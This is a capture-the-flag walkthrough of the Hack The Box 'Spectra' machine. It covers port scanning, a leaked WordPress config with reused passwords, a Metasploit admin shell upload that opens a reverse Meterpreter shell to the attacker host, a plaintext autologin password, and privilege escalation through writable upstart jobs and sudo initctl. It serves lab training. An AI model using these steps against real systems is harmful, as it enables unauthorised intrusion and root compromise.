






```sh
$ nmap -sC -sV -o nmap.txt 10.10.10.229

Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-19 20:37 CEST
Nmap scan report for spectra.htb (10.10.10.229)
Host is up (0.024s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.1 (protocol 2.0)
| ssh-hostkey:
|_  4096 52:47:de:5c:37:4f:29:0e:8e:1d:88:6e:f9:23:4d:5a (RSA)
80/tcp   open  http    nginx 1.17.4
|_http-server-header: nginx/1.17.4
|_http-title: Site doesn't have a title (text/html).
3306/tcp open  mysql   MySQL (unauthorized)
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_ssl-date: ERROR: Script execution failed (use -d to debug)
|_sslv2: ERROR: Script execution failed (use -d to debug)
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 39.25 seconds
```

Not all to much to see here, let's focus on the service running on port 80.



Both links are pointing to a domain `spectra.htb`, let's add that to our hosts file.

```sh
$ sudo vim /etc/hosts

127.0.0.1       localhost

10.10.10.229 spectra.htb
```

Software issue tracker: http://spectra.htb/main/index.php
Test: http://spectra.htb/testing/index.php



This contains a pretty basic wordpress website, best I could find is a potential user `administrator`

Found an interesting file on the testing environment



Looking at the source `view-source:http://spectra.htb/testing/wp-config.php.save`

```
<?php
/\*\*
 \* The base configuration for WordPress
 \*
 \* The wp-config.php creation script uses this file during the
 \* installation. You don't have to use the web site, you can
 \* copy this file to "wp-config.php" and fill in the values.
 \*
 \* This file contains the following configurations:
 \*
 \* \* MySQL settings
 \* \* Secret keys
 \* \* Database table prefix
 \* \* ABSPATH
 \*
 \* @link https://wordpress.org/support/article/editing-wp-config-php/
 \*
 \* @package WordPress
 \*/
// \*\* MySQL settings - You can get this info from your web host \*\* //
/\*\* The name of the database for WordPress \*/
define( 'DB\_NAME', 'dev' );
/\*\* MySQL database username \*/
define( 'DB\_USER', 'devtest' );
/\*\* MySQL database password \*/
define( 'DB\_PASSWORD', 'devteam01' );
/\*\* MySQL hostname \*/
define( 'DB\_HOST', 'localhost' );
/\*\* Database Charset to use in creating database tables. \*/
define( 'DB\_CHARSET', 'utf8' );
/\*\* The Database Collate type. Don't change this if in doubt. \*/
define( 'DB\_COLLATE', '' );
/\*\*#@+
 \* Authentication Unique Keys and Salts.
 \*
 \* Change these to different unique phrases!
 \* You can generate these using the {@link https://api.wordpress.org/secret-key/1.1/salt/ WordPress.org secret-key service}
 \* You can change these at any point in time to invalidate all existing cookies. This will force all users to have to log in again.
 \*
 \* @since 2.6.0
 \*/
define( 'AUTH\_KEY',         'put your unique phrase here' );
define( 'SECURE\_AUTH\_KEY',  'put your unique phrase here' );
define( 'LOGGED\_IN\_KEY',    'put your unique phrase here' );
define( 'NONCE\_KEY',        'put your unique phrase here' );
define( 'AUTH\_SALT',        'put your unique phrase here' );
define( 'SECURE\_AUTH\_SALT', 'put your unique phrase here' );
define( 'LOGGED\_IN\_SALT',   'put your unique phrase here' );
define( 'NONCE\_SALT',       'put your unique phrase here' );
/\*\*#@-\*/
/\*\*
 \* WordPress Database Table prefix.
 \*
 \* You can have multiple installations in one database if you give each
 \* a unique prefix. Only numbers, letters, and underscores please!
 \*/
$table\_prefix = 'wp\_';
/\*\*
 \* For developers: WordPress debugging mode.
 \*
 \* Change this to true to enable the display of notices during development.
 \* It is strongly recommended that plugin and theme developers use WP\_DEBUG
 \* in their development environments.
 \*
 \* For information on other constants that can be used for debugging,
 \* visit the documentation.
 \*
 \* @link https://wordpress.org/support/article/debugging-in-wordpress/
 \*/
define( 'WP\_DEBUG', false );
/\* That's all, stop editing! Happy publishing. \*/
/\*\* Absolute path to the WordPress directory. \*/
if ( ! defined( 'ABSPATH' ) ) {
	define( 'ABSPATH', \_\_DIR\_\_ . '/' );
}
/\*\* Sets up WordPress vars and included files. \*/
require\_once ABSPATH . 'wp-settings.php';
```

Username: devtest
Password: devteam01

Can't login to mysql with this one
Can't login to wordpress with this one

But I can login to wordpress with `adminstrator` and the same password. I guess this is trying to demonstrate password reuse.



We can use meterpreter or try to grab a shell manually by uploading

```sh
msf6 > search wp_admin

Matching Modules
================

   #  Name                                       Disclosure Date  Rank       Check  Description
   -  ----                                       ---------------  ----       -----  -----------
   0  exploit/unix/webapp/wp_admin_shell_upload  2015-02-21       excellent  Yes    WordPress Admin Shell Upload


Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/webapp/wp_admin_shell_upload
```

Select the exploit

```sh
msf6 > use 0
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(unix/webapp/wp_admin_shell_upload) >
```

With info we can list some more information about the exploit we just selected. It will also show all options we need to set in order to use this exploit:

```sh
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set rhost 10.10.10.229
rhost => 10.10.10.229
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set lhost 10.10.14.14
lhost => 10.10.14.14
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set lport 6666
lport => 6666
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set username administrator
username => administrator
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set password devteam01
password => devteam01
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set targeturi /main
targeturi => /main
msf6 exploit(unix/webapp/wp_admin_shell_upload) >
```

We can trigger the exploit by typing `exploit`

```sh
msf6 exploit(unix/webapp/wp_admin_shell_upload) > exploit

[*] Started reverse TCP handler on 10.10.14.14:6666
[*] Authenticating with WordPress using administrator:devteam01...
[+] Authenticated with WordPress
[*] Preparing payload...
[*] Uploading payload...
[*] Executing the payload at /main/wp-content/plugins/OrysVvliVK/nrphPvSBfR.php...
[*] Sending stage (39282 bytes) to 10.10.10.229
[+] Deleted nrphPvSBfR.php
[+] Deleted OrysVvliVK.php
[+] Deleted ../OrysVvliVK
[*] Meterpreter session 1 opened (10.10.14.14:6666 -> 10.10.10.229:39716) at 2021-05-19 21:31:08 +0200

meterpreter >
```

And we have a meterpreter session. Now lets enter a shell and upgrade this to a full tty

```sh
meterpreter > shell
Process 4875 created.
Channel 0 created.
sh: 0: getcwd() failed: No such file or directory
sh: 0: getcwd() failed: No such file or directory

cd /

python3 -c "import pty; pty.spawn('/bin/bash')"
nginx@spectra / $ export TERM=xterm
export TERM=xterm
nginx@spectra / $
```

Don't know what happened but I had to move into a differnet directory `/tmp` in order to be able to spin up python.
-> This is because we landed in a shell that doesn't have a current working directory.

Looking for users on the box;

```sh
$ cat /etc/passwd

<snip>
tcpdump:!:215:215:tcpdump --with-user:/dev/null:/bin/false
nginx:x:20155:20156::/home/nginx:/bin/bash
katie:x:20156:20157::/home/katie:/bin/bash
```

Looking into katie's home folder

```sh
$ ls -al /home/katie
ls -al /home/katie
total 32
drwxr-xr-x 4 katie katie 4096 Feb 10 00:38 .
drwxr-xr-x 8 root  root  4096 Feb  2 15:55 ..
lrwxrwxrwx 1 root  root     9 Feb  2 15:55 .bash_history -> /dev/null
-rw-r--r-- 1 katie katie  127 Dec 22 05:46 .bash_logout
-rw-r--r-- 1 katie katie  204 Dec 22 05:46 .bash_profile
-rw-r--r-- 1 katie katie  551 Dec 22 05:46 .bashrc
drwx------ 3 katie katie 4096 Jan 15 15:55 .pki
drwxr-xr-x 2 katie katie 4096 Jan 15 15:55 log
-r-------- 1 katie katie   33 Feb  2 15:57 user.txt
```

So we need to get access to this user

TODO: add how I found this file in /opt

```sh
nginx@spectra / $ cat /opt/autologin.conf.orig
cat /opt/autologin.conf.orig
# Copyright 2016 The Chromium OS Authors. All rights reserved.
# Use of this source code is governed by a BSD-style license that can be
# found in the LICENSE file.
description   "Automatic login at boot"
author        "chromium-os-dev@chromium.org"
# After boot-complete starts, the login prompt is visible and is accepting
# input.
start on started boot-complete
script
  passwd=
  # Read password from file. The file may optionally end with a newline.
  for dir in /mnt/stateful_partition/etc/autologin /etc/autologin; do
    if [ -e "${dir}/passwd" ]; then
      passwd="$(cat "${dir}/passwd")"
      break
    fi
  done
  if [ -z "${passwd}" ]; then
    exit 0
  fi
  # Inject keys into the login prompt.
  #
  # For this to work, you must have already created an account on the device.
  # Otherwise, no login prompt appears at boot and the injected keys do the
  # wrong thing.
  /usr/local/sbin/inject-keys.py -s "${passwd}" -k enter
end scriptnginx@spectra / $ cd /mnt/stateful_partition/etc/autologin
cd /mnt/stateful_partition/etc/autologin
bash: cd: /mnt/stateful_partition/etc/autologin: No such file or directory
nginx@spectra / $ cd /etc/autologin
cd /etc/autologin
nginx@spectra /etc/autologin $ ls
ls
passwd
nginx@spectra /etc/autologin $ cat passwd
cat passwd
SummerHereWeCome!!
```

Let's try loggin in trough ssh

```sh
$ ssh katie@10.10.10.229
Password:
katie@spectra ~ $

```

And we are in, and we now have access to the user flag:


It seems that katie has access to initctl

```sh
katie@spectra / $ sudo -l
User katie may run the following commands on spectra:
    (ALL) SETENV: NOPASSWD: /sbin/initctl
katie@spectra / $
```

As you can see in figure 01 initctl own SUDO privileges. Usually initctl works with service configuration file located at /etc/init directory on linux servers. mmmmm. so What if we can inject malicious code into that services. Let’s have a look

```sh
katie@spectra / $ ls -al /etc/init

<snip>
-rw-r--r--  1 root root         671 Dec 22 06:10 tcsd.conf
-rw-rw----  1 root developers   478 Jun 29  2020 test.conf
-rw-rw----  1 root developers   478 Jun 29  2020 test1.conf
-rw-rw----  1 root developers   478 Jun 29  2020 test10.conf
-rw-rw----  1 root developers   478 Jun 29  2020 test2.conf
-rw-rw----  1 root developers   478 Jun 29  2020 test3.conf
-rw-rw----  1 root developers   478 Jun 29  2020 test4.conf
-rw-rw----  1 root developers   478 Jun 29  2020 test5.conf
-rw-rw----  1 root developers   478 Jun 29  2020 test6.conf
-rw-rw----  1 root developers   478 Jun 29  2020 test7.conf
-rw-rw----  1 root developers   478 Jun 29  2020 test8.conf
-rw-rw----  1 root developers   478 Jun 29  2020 test9.conf
-rw-r--r--  1 root root        2645 Dec 22 05:53 tlsdated.conf
-rw-r--r--  1 root root        1276 Dec 22 06:10 tpm-probe.conf
-rw-r--r--  1 root root         673 Jan 15 15:33 tpm_managerd.conf
<snip>
```

Most of the files in this directory are only accessible by root. But some of them are given write access to the `developers` group. Let's see if `katie` is in that group.

```sh
katie@spectra / $ groups
katie developers
```

Ok nice she does, let's edit one of these test files and see if we can execute some codez. Let's modify test.conf and add an suid flag to bash:



We need to make sure the script isn't running already:

```sh
katie@spectra ~ $ sudo initctl list | grep test
test1 stop/waiting
test stop/waiting
test7 stop/waiting
test6 stop/waiting
test5 stop/waiting
test4 stop/waiting
test10 stop/waiting
attestationd start/running, process 1720
trace_marker-test stop/waiting
test9 stop/waiting
test8 stop/waiting
test3 stop/waiting
test2 stop/waiting
```

Ok it's stopped already, if it was running kill it first by running `sudo /sbin/initctl stop test`

We can now run the script with

```sh
katie@spectra ~ $ sudo /sbin/initctl start test
test start/running, process 55603
katie@spectra ~ $
```



Why is -p required:

> If the shell is started with the effective user (group) id not equal to the real user (group) id, and the -p option is not supplied, no startup files are read, shell functions are not inherited from the environment, the SHELLOPTS variable, if it appears in the environment, is ignored, and the effective user id is set to the real user id. If the -p option is supplied at invocation, the startup behavior is the same, but the effective user id is not reset.
